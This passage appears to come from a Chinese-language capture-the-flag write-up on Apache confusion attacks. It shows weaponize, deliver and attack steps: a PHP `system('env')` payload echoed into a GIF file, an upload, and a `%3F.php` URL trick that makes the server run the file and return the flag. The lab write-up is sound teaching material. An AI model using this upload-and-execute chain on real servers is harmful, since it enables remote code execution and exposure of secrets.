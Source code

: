     ![alt](posts/2025-Apache-Confusion-Attacks/image5.webp)
3. 武裝：製作帶有惡意 PHP 程式碼的 Exploit 圖片。
    ```bash
    $ echo "<?php echo system('env'); ?>" > exploit.gif
    ```
4. 傳遞：上傳 Exploit 並得到上傳後的檔名為 `Meme-688656d968aa36.47347853.gif`。
    ![alt](posts/2025-Apache-Confusion-Attacks/image6.webp)
5. 攻擊：依據原始碼 `index.php`，檔案會被上傳到路徑 `/var/www/uploads/` 中。因此存取路徑 `http://localhost:1337/var/www/uploads/Meme-688656d968aa36.47347853.gif%3F.php` 得到 Flag。